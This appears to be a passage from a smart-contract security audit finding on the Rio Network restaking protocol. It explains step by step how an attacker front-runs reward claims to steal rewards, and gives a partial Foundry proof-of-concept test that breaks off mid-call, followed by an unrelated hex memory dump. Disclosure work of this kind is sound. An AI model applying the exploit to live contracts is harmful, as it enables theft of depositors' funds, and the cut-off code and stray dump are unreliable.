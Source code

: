 An attacker can take advantage of this to steal a part of the rewards:
1. Mint a sensible amount of `LRTTokens` by depositing an accepted asset
2. Call [EigenLayer::DelayedWithdrawalRouter::claimDelayedWithdrawals()](https://github.com/Layr-Labs/eigenlayer-contracts/blob/v0.2.1-goerli-m2/src/contracts/pods/DelayedWithdrawalRouter.sol#L99), after which the value of the `LRTTokens` just minted will immediately increase.
3. Request a withdrawal for all the `LRTTokens` via [RioLRTCoordinator::requestWithdrawal()](https://github.com/sherlock-audit/2024-02-rio-network-core-protocol/blob/main/rio-sherlock-audit/contracts/restaking/RioLRTCoordinator.sol#L99).

### POC
Change [RioLRTRewardsDistributor::receive()](https://github.com/sherlock-audit/2024-02-rio-network-core-protocol/blob/main/rio-sherlock-audit/contracts/restaking/RioLRTOperatorDelegator.sol#L244-L246) (to side-step a gas limit bug:
```solidity
receive() external payable {
    (bool success,) = address(rewardDistributor()).call{value: msg.value}('');
    require(success);
}
```

Add the following imports to `RioLRTOperatorDelegator`:
```solidity
import {IRioLRTWithdrawalQueue} from 'contracts/interfaces/IRioLRTWithdrawalQueue.sol';
import {IRioLRTOperatorRegistry} from 'contracts/interfaces/IRioLRTOperatorRegistry.sol';
import {CredentialsProofs, BeaconWithdrawal} from 'test/utils/beacon-chain/MockBeaconChain.sol';
```
To copy-paste in `RioLRTOperatorDelegator.t.sol`:

```solidity
function test_stealRewards() public {
    address alice = makeAddr("alice");
    address bob = makeAddr("bob");
    uint256 aliceInitialBalance = 40e18;
    uint256 bobInitialBalance = 40e18;
    deal(alice, aliceInitialBalance);
    deal(bob, bobInitialBalance);
    vm.prank(alice);
    reETH.token.approve(address(reETH.coordinator), type(uint256).max);
    vm.prank(bob);
    reETH.token.approve(address(reETH.coordinator), type(uint256).max);

    //->Operator delegator and validators are added to the protocol
    uint8 operatorId = addOperatorDelegator(reETH.operatorRegistry, address(reETH.rewardDistributor));
    RioLRTOperatorDelegator operatorDelegator =
        RioLRTOperatorDelegator(payable(reETH.operatorRegistry.getOperatorDetails(operatorId).delegator));

    //-> Alice deposits ETH in the protocol
    vm.prank(alice);
    reETH.coordinator.depositETH{value: aliceInitialBalance}();
    
    //-> Rebalance is called and the ETH deposited in a validator
    vm.prank(EOA, EOA);
    reETH.coordinator.rebalance(ETH_ADDRESS);

    //-> Create a new validator with a 40ETH balance and verify his credentials.
    //-> This is to "simulate" rewards accumulation
    uint40[] memory validatorIndices = new uint40[](1);
    IRioLRTOperatorRegistry.OperatorPublicDetails memory details = reETH.operatorRegistry.getOperatorDetails(operatorId);
    bytes32 withdrawalCredentials = operatorDelegator.withdrawalCredentials();
    beaconChain.setNextTimestamp(block.timestamp);
    CredentialsProofs memory proofs;
    (validatorIndices[0], proofs) = beaconChain.newValidator({
```

[0x00:0x20]: 0x0000000000000000000000000000000000000000000000000000000000000000
[0x20:0x40]: 0x0000000000000000000000000000000000000000000000000000000000000000
[0x40:0x60]: 0x00000000000000000000000000000000000000000000000000000000000000e0
[0x60:0x80]: 0x0000000000000000000000000000000000000000000000000000000000000000
[0x80:0xa0]: 0x0000000000000000000000000000000000000000000000000000000000000030
[0xa0:0xc0]: 0x95cfcb859956953f9834f8b14cdaa93900000000000000000000000000000000
[0xc0:0xe0]: 0x8af94bc3ba4d4bfa93d087d522e4b78d00000000000000000000000000000000